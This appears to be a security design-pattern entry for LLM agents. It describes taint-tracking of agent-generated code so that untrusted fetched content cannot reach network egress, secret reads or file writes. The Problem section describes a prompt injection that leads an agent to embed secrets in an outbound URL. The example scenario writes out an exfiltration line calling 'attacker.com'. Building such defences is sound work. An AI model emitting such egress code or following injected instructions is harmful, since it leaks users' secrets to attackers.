

# Code-Then-Execute with Dataflow Analysis

**Also known as:** Tainted-Value Code Execution, Sandbox-DSL with Provenance

**Category:** Safety & Control  
**Status in practice:** emerging

## Intent

Have the agent emit code in a sandbox DSL whose values are statically tagged trusted/tainted via dataflow analysis before execution, enabling per-value policy enforcement.

## Context

An agent solves complex tasks by generating code that the runtime executes — data extraction, multi-step computations, tool chains. Some inputs to the code come from untrusted sources (user input, fetched content, tool outputs from third-party APIs).

## Problem

Without provenance tracking, the executor cannot distinguish trusted values (the agent's plan, user goal) from tainted values (fetched content that could be attacker-controlled). The same `exec(code)` runs both. A prompt injection in fetched content can produce code that, e.g., reads secrets from env and embeds them in an outbound URL — and the sandbox cannot reject it because it cannot tell the URL is tainted.

## Forces

- Free-form code generation is the agent's primary capability.
- Static dataflow analysis on generated code constrains expressivity.
- Tagging every value as trusted/tainted requires the DSL to track provenance.

## Therefore

Therefore: the agent emits code in a constrained sandbox DSL with explicit provenance tags on each value; dataflow analysis verifies that tainted values do not reach sensitive sinks (network egress, secret reads, file writes outside scratch) before any code executes.

## Solution

Define a sandbox DSL (subset of Python/TS or a custom Pyret-style language) where every value carries a provenance tag (TRUSTED, TAINTED, MIXED). The runtime performs static dataflow analysis on each agent-generated program before execution: if a TAINTED value reaches a sink declared sensitive (network egress, env reads, file writes outside scratch dir), reject the program. Pair with sandbox-isolation, action-selector-pattern.

## Structure

```
Agent emits DSL program --> Tag values TRUSTED / TAINTED / MIXED --> Static dataflow analysis --tainted reaches sensitive sink--> Reject before execution | --safe--> Execute in sandbox
```

## Diagram



## Example scenario

A research agent generates code: `summary = summarize(fetch('https://...'))`. The fetched content is TAINTED. The agent then writes `requests.get(f'https://attacker.com?d={summary}')`. Dataflow analysis sees TAINTED → network egress → rejects program before execution. Without the analysis the sandbox would have allowed the egress because outbound HTTPS is permitted.

## Consequences

**Benefits**

- Per-value provenance enforcement — tainted data physically cannot reach sensitive sinks.
- Static rejection before any execution, not runtime sandbox escape detection.
- Auditable: every rejection cites the specific tainted-value-to-sink path.

**Liabilities**

- Sandbox DSL is more constrained than general Python; some patterns require workarounds.
- Static dataflow analysis is complex to implement and maintain.
- Conservative analyzer rejects safe programs (false positives) that engineers must investigate.

## Failure modes

- False reject — the analyzer is conservative, rejects a safe program, and engineers spend time tracing why.
- Undeclared sink — a sensitive operation is not declared as a sink, so a tainted value reaches it and the program runs.
- Workaround drift — the DSL is too narrow for a needed task, and teams add escape hatches that skip the dataflow check.

## What this pattern constrains

The runtime may not execute agent-generated code without first running dataflow analysis; programs whose taint reaches a sensitive sink are rejected, not sanitized.

## Applicability

**Use when**

- Agent generates code that processes untrusted content alongside sensitive values (secrets, PII).
- Static analysis can be performed in tens of ms per program.
- Engineering team can maintain a sandbox DSL.

**Do not use when**

- Code generation must use arbitrary Python features the DSL cannot support.
- Latency budget cannot absorb per-program static analysis pass.
- No team capacity to maintain DSL + analyzer.

## Components

- Sandbox DSL — constrained language with provenance tags
- Provenance tagger — marks values TRUSTED/TAINTED at boundaries
- Dataflow analyzer — verifies taint cannot reach sensitive sinks
- Rejector — refuses programs that fail the analysis
- Sandbox runtime — executes only analysis-approved programs

## Tools

- Sandbox DSL runtime — constrained execution environment
- Dataflow analyzer — static taint tracking
- Provenance tagger — marks values trusted/tainted at boundaries

## Evaluation metrics

- Reject rate — programs the analyzer refuses
- False-positive rate — safe programs rejected
- Sink-attempt rate — tainted values reaching sensitive sinks (caught vs leaked)

## Known uses

- **[Beurer-Kellner et al., Design Patterns for Securing LLM Agents](https://arxiv.org/abs/2506.08837)** _available_
- **[cusy: Entwurfsmuster für die Absicherung von LLM-Agenten](https://cusy.io/de/blog/design-patterns-for-securing-llm-agents.html)** _available_

## Related patterns

- _complements_ **Sandbox Isolation**
- _complements_ **Code-as-Action Agent**
- _complements_ **Code Execution**
- _complements_ **Action Selector Pattern**
- _complements_ **Tool Output Poisoning Defense**
- _complements_ **Monotonic Privilege Confinement** — Supplies the taint signal that untrusted data has entered the state, which is the event that triggers a forced narrowing here.

## References

- [Design Patterns for Securing LLM Agents against Prompt Injections](https://arxiv.org/abs/2506.08837) — 2025
- [Entwurfsmuster für die Absicherung von LLM-Agenten](https://cusy.io/de/blog/design-patterns-for-securing-llm-agents.html) — 2026
